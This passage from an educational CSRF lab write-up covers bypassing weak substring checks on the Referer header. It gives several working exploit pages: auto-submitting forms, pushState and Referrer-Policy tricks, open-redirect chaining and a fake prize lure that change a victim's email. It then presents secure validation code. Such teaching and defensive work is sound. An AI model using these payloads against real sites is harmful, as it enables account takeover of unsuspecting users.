            └── But perfect for this attack! 💣
```

---

### **Comparison with Other CSRF Techniques**

```r
CSRF Defense & Bypass Comparison:

Lab 1 — No CSRF protection:
├── No tokens, no SameSite, no Referer validation
├── Direct POST from attacker page works
└── Trivial attack ✓

Lab 2 — Token validation depends on method:
├── POST requires token, GET skips validation
├── Convert POST → GET
└── Token bypass via method change

Lab 3 — Token validation depends on presence:
├── Token present → validated
├── Token absent → skipped
└── Remove token parameter entirely

Lab 4 — Token duplicated in cookie:
├── Server checks: csrf_cookie == csrf_body
├── Find CRLF injection to set cookie
└── Inject fake cookie + matching body

Lab 5 — SameSite Lax + method override:
├── SameSite=Lax blocks POST cross-site
├── Server accepts _method=POST in GET
└── GET + _method=POST bypass

Lab 6 — SameSite Strict + gadget:
├── SameSite=Strict blocks all cross-site
├── Find on-site redirect gadget
└── Cross-site → same-site chain bypass

Lab 7 — Referer validation (this lab):
├── Server validates Referer header
├── But uses weak substring check
├── Append target domain to query string
├── Set Referrer-Policy: unsafe-url
└── Substring found → bypass!

Protection strength ranking:
└── None < Method tricks < Token tricks < Referer validation
    └── Each adds complexity to attack
        └── But each has bypasses! ⚠️

Referer validation vs Token validation:
├── Referer: Browser-controlled, attacker can manipulate via pushState + policy
├── Token: Server-generated, cannot be forged if properly implemented
└── Tokens are stronger (if done right) ✓
```

---

## 🚀 **Attack Variations**

### **Variation 1: Subdomain Takeover Bypass**

**If attacker controls subdomain:**

```r
Scenario:
└── Target: https://app.target.com
└── Attacker controls: https://old.target.com (abandoned subdomain)

Broken validation:
if (referer.contains("target.com")) {
    accept();
}

Attack:
└── Host exploit on: https://old.target.com/exploit.html
    └── Referer will be: https://old.target.com/exploit.html
        └── Contains "target.com" ✓
            └── Validation passes! 💥

Why this works:
└── Same domain (target.com)
    └── But different subdomain (old vs app)
        └── Substring check doesn't distinguish! ❌

Defense:
└── Validate FULL origin, not just domain substring:
    if (referer.startsWith("https://app.target.com/")) {
        accept();  // Only specific subdomain ✓
    }
```

---

### **Variation 2: Domain in Path Segment**

**Alternative injection location:**

```r
Instead of query string:
https://attacker.com/?target.com

Try path segment:
https://attacker.com/target.com/exploit.html

Using history.pushState():
history.pushState("", "", "/target.com/fake-path");

Result URL:
https://exploit-server.net/target.com/fake-path

Referer sent:
Referer: https://exploit-server.net/target.com/fake-path

Server validation:
└── Contains "target.com"? YES ✓

Advantage:
└── Looks more legitimate
    └── Less obviously an attack
        └── May bypass WAF rules! ✓
```

---

### **Variation 3: Multiple Encoding Tricks**

**Bypass filters that decode:**

```r
URL encoding:
target.com → t%61rget.com (encode 'a')
           → tar%67et.com (encode 'g')

Double encoding:
target.com → %74arget.com → %2574arget.com

Unicode encoding:
target.com → t\u0061rget.com

Case variations:
Target.com
TARGET.COM
tArGeT.cOm

Test all variations:
└── Some filters only check lowercase
    └── Case variation bypasses ✓
```

---

### **Variation 4: Fragment Identifier Injection**

**Use hash fragment:**

```r
Normal query string:
https://attacker.com/?target.com

Try fragment:
https://attacker.com/#target.com

Using history.pushState():
history.pushState("", "", "#target.com");

Issue:
└── Fragment not sent in Referer! ❌
    └── Browser strips # and everything after
        └── Won't work for this attack ✓

But useful to know:
└── Fragments never sent to server
    └── Client-side only data
        └── Cannot be used for server-side validation bypass
```

---

### **Variation 5: Meta Refresh Instead of JavaScript**

**Non-JS alternative:**

```r
<html>
  <head>
    <meta http-equiv="refresh" 
          content="0; url=https://target.com/change-email?email=evil@attacker.com&target.com">
  </head>
  <body>
    <form action="https://target.com/change-email" method="POST">
      <input name="email" value="evil@attacker.com">
    </form>
  </body>
</html>

Referrer-Policy: unsafe-url

How it works:
└── Meta refresh creates navigation
    └── From: https://exploit-server.net/?target.com
        └── Referer includes query string
            └── Target domain present ✓

Advantage:
└── Works even if JavaScript disabled ✓

Disadvantage:
└── User sees redirect happening
    └── Less stealthy than JavaScript
```

---

### **Variation 6: Form GET Instead of POST**

**If endpoint accepts GET:**

```r
<html>
  <body>
    <form action="https://target.com/change-email" method="GET">
      <input name="email" value="evil@attacker.com">
    </form>
    <script>
      history.pushState("", "", "/?target.com");
      document.forms[0].submit();
    </script>
  </body>
</html>

Why this might work:
└── GET parameters in URL
    └── Simpler than POST body
        └── Some endpoints accept both ✓

Referer will still be:
└── https://exploit-server.net/?target.com
    └── Contains target domain substring ✓
```

---

### **Variation 7: XMLHttpRequest with Custom Headers**

**If CORS allows:**

```r
<script>
  history.pushState("", "", "/?target.com");
  
  fetch("https://target.com/change-email", {
    method: "POST",
    credentials: "include",  // Send cookies
    headers: {
      "Content-Type": "application/x-www-form-urlencoded"
    },
    body: "email=evil@attacker.com"
  });
</script>

Referrer-Policy: unsafe-url

Note:
└── Fetch/XHR respects Referrer-Policy
    └── Referer will include full URL with query
        └── If CORS allows cross-origin POST
            └── Attack succeeds! ✓

Limitation:
└── Requires CORS misconfiguration
    └── Most sites block cross-origin fetch
        └── Form submission more reliable ✓
```

---

### **Variation 8: Timing Attack for Validation**

**Test validation logic:**

```r
Test different Referers and measure response time:

1. Valid Referer:
   Referer: https://target.com/
   Response time: 200ms
   Result: Accepted

2. Invalid Referer:
   Referer: https://attacker.com/
   Response time: 150ms
   Result: Rejected (fast rejection)

3. Bypass Referer:
   Referer: https://attacker.com?target.com
   Response time: 200ms
   Result: Accepted (same timing as valid!)

Insight:
└── Timing matches valid request
    └── Suggests bypass passed validation
        └── Not just same result code! ✓
```

---

### **Variation 9: Chain with Open Redirect**

**If target site has open redirect:**

```r
Scenario:
└── Target has: /redirect?url=...
    └── No validation, redirects anywhere

Attack:
└── Instead of: https://exploit-server.net/?target.com
    └── Use: https://target.com/redirect?url=https://exploit-server.net/

Flow:
1. Victim visits: https://target.com/redirect?url=...
2. Referer: https://target.com/redirect?url=...
3. Redirects to: https://exploit-server.net/
4. Exploit page loads
5. Form submits back to target.com
6. Referer: https://target.com/redirect?url=... (from step 2!)
7. Server validation: Referer starts with "https://target.com" ✓
8. Attack bypasses even strict validation! 💥

Why this is powerful:
└── Actual Referer IS from target.com
    └── Not attacker domain with query string trick
        └── Beats even strong validation! 💣
```

---

### **Variation 10: Social Engineering Hybrid**

**Combine with user action:**

```r
<html>
  <body>
    <h1>You've won a prize!</h1>
    <p>Click below to claim:</p>
    
    <form action="https://target.com/change-email" method="POST">
      <input name="email" value="evil@attacker.com">
      <button type="submit">Claim Prize!</button>
    </form>
    
    <script>
      history.pushState("", "", "/?target.com");
    </script>
  </body>
</html>

Referrer-Policy: unsafe-url

How it works:
└── User actively clicks button
    └── Feels more legitimate
        └── User thinks they're claiming prize
            └── Actually submitting CSRF! 💣

Why this works:
└── User interaction bypasses some browser protections
    └── Referer still manipulated via pushState
        └── Validation still bypassed ✓
```

---
---

## 🛡️ **How to Fix (Secure Code)**

### **Fix 1: Use Origin-Based Validation**

```JavaScript
// ✅ SECURE - Parse and validate origin

function validateReferer(referer) {
    if (!referer) {
        return false;  // Reject if no Referer
    }
    
    try {
        const url = new URL(referer);
        const expectedOrigin = "https://target.com";
        
        // Compare ORIGIN only (protocol + host)
        return url.origin === expectedOrigin;
    } catch (error) {
        // Invalid URL format
        return false;
    }
}

app.post('/change-email', (req, res) => {
    const referer = req.headers['referer'];
    
    if (!validateReferer(referer)) {
        return res.status(403).send('Invalid request origin');
    }
    
    // Process email change
    updateEmail(req.body.email);
    res.redirect('/my-account');
});

Why this is secure:
✅ Parses Referer as URL object
✅ Extracts only origin (scheme + host)
✅ No substring matching ambiguity
✅ Cannot be bypassed with query string

Test results:
├── https://target.com/ → origin: "https://target.com" ✓
├── https://target.com/page?q=1 → origin: "https://target.com" ✓
├── https://attacker.com?target.com → origin: "https://attacker.com" ❌
├── https://target.com.evil.com → origin: "https://target.com.evil.com" ❌
└── Only legitimate origin accepted! 🛡️
```

---

### **Fix 2: Use CSRF Tokens (Best Practice)**

```JavaScript
// ✅ SECURE - Session-bound CSRF tokens

const crypto = require('crypto');

// Generate token on form render
app.get('/my-account', (req, res) => {
    if (!req.session.csrfToken) {
        req.session.csrfToken = crypto.randomBytes(32).toString('hex');
    }
    
    res.render('account', {
        csrfToken: req.session.csrfToken
    });
});

// Validate token on form submission
app.post('/change-email', (req, res) => {
    const submittedToken = req.body.csrf;
    const sessionToken = req.session.csrfToken;
    
    // Validate token exists and matches
    if (!submittedToken || submittedToken !== sessionToken) {
        return res.status(403).send('Invalid CSRF token');
    }
    
    // Also validate Referer as defense in depth
    if (!validateReferer(req.headers['referer'])) {
        return res.status(403).send('Invalid origin');
    }
    
    // Process email change
    updateEmail(req.body.email);
    res.redirect('/my-account');
});

Why this is superior:
✅ Token tied to server-side session
✅ Cannot be forged by attacker
✅ Combined with Referer check (defense in depth)
✅ Industry standard protection 🛡️
```

---

### **Fix 3: Strict StartsWith Validation**

```JavaScript
// ✅ SECURE - String prefix validation

function validateReferer(referer) {
    if (!referer) {
        return false;
    }
    
    // Expected origin with trailing slash
    const expectedPrefix = "https://target.com/";
    
    // Check if Referer STARTS with expected prefix
    return referer.startsWith(expectedPrefix);
}

Why this works:
└── startsWith() only matches beginning of string
    ├── https://target.com/page → TRUE ✓
    ├── https://attacker.com?target.com → FALSE ❌
    └── Substring in query cannot match! ✓

Why trailing slash matters:
└── Without slash: "https://target.com"
    ├── Matches: https://target.com/page ✓
    ├── Also matches: https://target.com.evil.com/ ❌ (subdomain!)
    
└── With slash: "https://target.com/"
    ├── Matches: https://target.com/page ✓
    ├── Does NOT match: https://target.com.evil.com/ ✓
    └── Prevents subdomain attacks! 🛡️
```

---

### **Fix 4: Whitelist Multiple Origins**

```JavaScript
// ✅ SECURE - Whitelist allowed origins

function validateReferer(referer) {
    if (!referer) {
        return false;
    }
    
    // Allowed origins (main site, subdomains, etc.)
    const allowedOrigins = [
        "https://target.com",
        "https://www.target.com",
        "https://app.target.com",
        "https://api.target.com"
    ];
    
    try {
        const url = new URL(referer);
        return allowedOrigins.includes(url.origin);
    } catch {
        return false;
    }
}

Benefits:
✅ Explicitly whitelists trusted origins
✅ Easy to maintain and update
✅ Clear security policy
✅ No ambiguity in validation 🛡️
```

---

### **Fix 5: Validate Origin Header Instead**

```JavaScript
// ✅ SECURE - Use Origin header, not Referer

function validateOrigin(origin) {
    if (!origin) {
        return false;
    }
    
    const allowedOrigins = [
        "https://target.com",
        "https://www.target.com"
    ];
    
    return allowedOrigins.includes(origin);
}

app.post('/change-email', (req, res) => {
    // Use Origin header instead of Referer
    const origin = req.headers['origin'];
    
    if (!validateOrigin(origin)) {
        return res.status(403).send('Invalid origin');
    }
    
    updateEmail(req.body.email);
    res.redirect('/my-account');
});

Why Origin is better than Referer:
├── Origin: Only contains origin (no path/query)
│   └── Example: "https://attacker.com"
│   └── Attacker cannot inject target domain ✓
│
└── Referer: Contains full URL (path + query)
    └── Example: "https://attacker.com/?target.com"
    └── Attacker CAN inject via query string ❌

Limitation:
└── Origin not sent on same-origin requests
    └── May need to check both Origin and Referer
        └── Prefer Origin when present ✓
```

---
